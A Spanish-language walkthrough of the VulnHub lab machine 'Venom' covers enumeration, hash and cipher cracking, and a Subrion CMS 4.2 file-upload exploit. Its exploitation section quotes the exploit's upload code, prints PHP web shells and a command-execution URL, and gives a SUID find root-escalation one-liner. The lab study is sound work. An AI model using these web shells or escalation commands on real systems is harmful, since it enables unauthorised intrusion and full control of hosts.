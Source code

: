 ```yaml
---
layout: single
title: Venom - VulnHub
excerpt: " This machine was created for the OSCP Preparation.This box was created with virtualbox. Enumeration is the Key. "
date: 2023-01-30
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-venom/venom.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - ftp
  - hash
  - base64
  - suid
  - php
  - python
---
```


This machine was created for the OSCP Preparation.This box was created with virtualbox. Enumeration is the Key.

# Summary
- IP: 192.168.1.46
- Ports: 21,80,139,443,445
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  80 -> Apache httpd 2.4.29
	-  139 -> Samba smbd 3.X - 4.X
	-  443 -> Apache httpd 2.4.29
	-  445 -> Samba smbd 4.7.6-Ubuntu
# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.46 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p21,80,139,443,445 -sCV 192.168.1.46 -oN targeted
```

- Análisis de directorios con gobuster:

```bash
$gobuster dir -u 192.168.1.46 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```

- Analizamos el servicio RPC aprovechando que están abiertos los puertos 139 y 445, tratando de enumerar los usuarios existentes dentro de la máquina:

```bash
$rpcclient -U "" -N 192.168.1.46
```

```
rpcclient $> help
rpcclient $> lookupnames root
rpcclient $> lookupsids S-1-22-2-0
rpcclient $> lookupsids S-1-22-2-1
exit
```

```bash
$seq 1 1500 | xargs -P 50 -I {} rpcclient -U "" -N 192.168.1.46 -c "lookupsids S-1-22-1-{}" | grep -oP '.*User\\[a-z].*\s'
```

- Enumeramos usuarios potenciales: "nathan" y "hostinger".


# Análisis de página web:

- Entrando en la página principal por el puerto 80, vemos la interfaz por defecto de apache, con una variante al pie de página, que revisando el código fuente, podemos encontrar la siguiente linea:

```html
<!...<5f2a66f947fa5690c26506f66bde5c23> follow this to get access on somewhere.....-->
```

- Crackeamos el hash en www.hashes.com y obtenemos una posible credencial: "hostinger".


# Acceso FTP:

- Accedemos via FTP usando alguno de los usuarios que habíamos encontrado y la credencial, funcionando con el usuario "hostinger".

- Enumeramos un directorio "files" el cual contiene un archivo "hint.txt", lo descargamos y lo leemos:

```
T0D0 --

* You need to follow the 'hostinger' on WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0= also aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
* some knowledge of cipher is required to decode the dora password..
* try on venom.box
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the administrator password 


Have fun .. :)
```


- Vemos dos strings al parecer en base 64, lo decodeamos, el primero nos arroja lo siguente:

```bash
$echo "WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=" | base64 -d | base64 -d | base64 -d

standard vigenere cipher
```

```bash
$echo "aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=" | base64 -d

https://cryptii.com/pipes/vigenere-cipher
```

- Al parecer la contraseña alojada en el archivo "hint.txt" está encriptada usando "standard vigenere cipher", por lo que usaremos cualquier página como la misma que nos proporciona el archivo para poder desencriptarla.

- Este tipo de cifrado nos pide una key, la cual intentamos con la credencial que encontramos anteriormente, obteniendo una posible credencial para el usuario "dora".

- Agregamos la dirección "venom.box" al "/etc/hosts" y accedemos.

- Encontramos un login de "Subrion CMS", accedemos como "dora" usando la contraseña que hemos desencriptado.

- Vemos que sí se pudo acceder y seremos "administrator"; analizamos el código fuente de la página y encontramos la version utilizada del CMS, buscamos vulnerabilidades para "Subrion CMS 4.2"-

```bash
$searchsploit subrion cms 4.2
```

- Encontramos un "arbitrary file upload", que consiste en una exploit escrita en python que nos permite subir archivos de tal forma que podamos inyectar un PHP malicioso.

- Analizamos el código para ver exactamente que es lo que hace por detrás y poder hacerlo de forma manual-

- Vemos en ciertas lineas de código información relevante:

```python
up_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------6159367931540763043609390275", "Origin": "http://192.168.1.20", "Connection": "close", "Referer": "http://192.168.1.20/panel/uploads/"}
```

```python
up_data = "-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"reqid\"\r\n\r\n17978446266285\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"cmd\"\r\n\r\nupload\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"target\"\r\n\r\nl1_Lw\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"__st\"\r\n\r\n"+csrfToken+"\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"upload[]\"; filename=\""+shell_name+".phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"mtime[]\"\r\n\r\n1621210391\r\n-----------------------------6159367931540763043609390275--\r\n"
```

```python
url_clean = url_shell.replace('/panel', '')
        req = session.get(url_clean + shell_name + '.phar?cmd=id')
```

- Accedemos al directorio "/panel/uploads" y efectivamente nos permite la subida de archivos, en cual subiremos un PHP malicioso usando la extensión ".phar":

```
nano cmd.phar
```

```php
<?php echo passthru($_GET["cmd"]); ?>
```

- De acuerdo al código de python, el archivo subido se aloja en el directorio "/uploads/" así que nos dirigimos a dicha dirección y comprobamos que podemos ejecutar comandos mediante el parámetro "cmd":

```
http://venom.box/uploads/cmd.phar?cmd=whoami
```

- Entablamos una reverse shell básica y ganamos acceso al sistema como el usuario "www-data"


# ESCALANDO PRIVILEGIOS:

- Pivotamos al usuario "hostinger" el cual habíamos enumerado anteriormente usando la credencial "hostinger".

- Cateamos el archivo ".bash_history" del usuario "hostinger" y encontramos un directorio el cual contiene un archivo "/var/www/html/subrion/backup/.htaccess"

- Cateamos el archivo ".htaccess" y encontramos una posible credencial, la usamos para pivotar al usuario "nathan"

- Buscamos permisos SUID y vemos lo siguiente:

```bash
find / -perm -4000 2>/dev/null | grep -v snap
```

```
/usr/bin/find
```

- Buscamos en "gtfobins" la manera de escalar privilegios usando el binario "find" con permisos SUID y encontramos el siguiente comando:

```bash
./find . -exec /bin/sh -p \; -quit
```

- Lo ejecutamos y seremos root.
